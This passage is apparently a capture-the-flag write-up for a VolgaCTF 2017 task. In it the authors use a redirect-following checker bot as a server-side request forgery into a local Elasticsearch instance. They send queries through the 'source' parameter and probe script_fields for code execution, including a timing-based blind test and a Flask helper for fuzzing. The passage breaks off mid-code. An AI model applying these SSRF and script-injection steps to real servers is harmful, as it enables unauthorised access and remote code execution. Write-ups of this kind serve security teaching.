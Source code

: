   ```http://troll-hunter.quals.2017.volgactf.ru:9494/show?id=q=img:*troll*%20name:Anonymous```
```bash
yalegko@isc:~$ nc -lkvvv 4041
Listening on [0.0.0.0] (family 0, port 4041)
Connection from [185.143.173.223] port 4041 [tcp/*] accepted (family 2, sport 48358)
GET / HTTP/1.1
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Accept: */*
User-Agent: Ruby
Host: 92.63.71.187:4041
```

Aha! It's alive!

So after a bit of tries we got that:
- The bot ignores URI scheme, path and params and uses only provided host and port (all auth parts of URI are also ignored) to do `GET /` request
- If we answer `200 OK` bot says *"Ok. We'll check this. Thank you!"*, if we send some `4xx` or `5xx` error bot says *"Sorry, we can't check this ip. Something wrong"*
- **Bot follow redirects!** And morevover it uses provided location as is, so we have full control over request path and query string

## Knock-Knock, Elastic, R U There?

Sending bot to the `http://localhost:9200/_cat/indices?v` we make sure that we can acess elastic in that way, but we cant get any info except **"OK"** or **"Not OK"**.

*Oh, no! Is it error-based blind elasticsearch injection? D:*

At that moment we got much more access to the elastic REST API, so we took a closer look to [its docs](https://www.elastic.co/guide/en/elasticsearch/reference/current/search-request-body.html) and found the following:
> The body content can also be passed as a REST parameter named source.

So we could send the request body via query argument `source` like:
```
    Location http://localhost:9200/_search?source={"query": {"match_all": { } } }
```

Time to try quite interesting field `script_fields`:
```
    OK -- GET /_search?source={"size":1,"query":{"match_all":{}},"script_fields":{"lol":{"script":"1+1"}}}
    OK -- GET /_search?source={"size":1,"query":{"match_all":{}},"script_fields":{"lol":{"script":"(new Date()).getTime()"}}}
    FAIL -- GET /_search?source={"size":1,"query":{"match_all":{}},"script_fields":{"lol":{"script":"import java.net.*"}}}
    ... Thousands of fails skipped ...
    OK -- GET /_search?source={"size":1,"query":{"match_all":{}},"script_fields":{"lol":{"script":"l = (new Date()).getTime(); while((new Date()).getTime()-10000<l){}"}}}
```

That way we have some kind of java-like language (groovy?) and possible RCE, so we wrote simple webserver and did fuzzing a lot:
```python
from flask import Flask, request
from flask import Response
import requests
app = Flask(__name__)

url = ""
lock = False

@app.route("/check/<path:path>")
def check(path):
    global url, lock
    if lock:
        return "Already in process", 400
```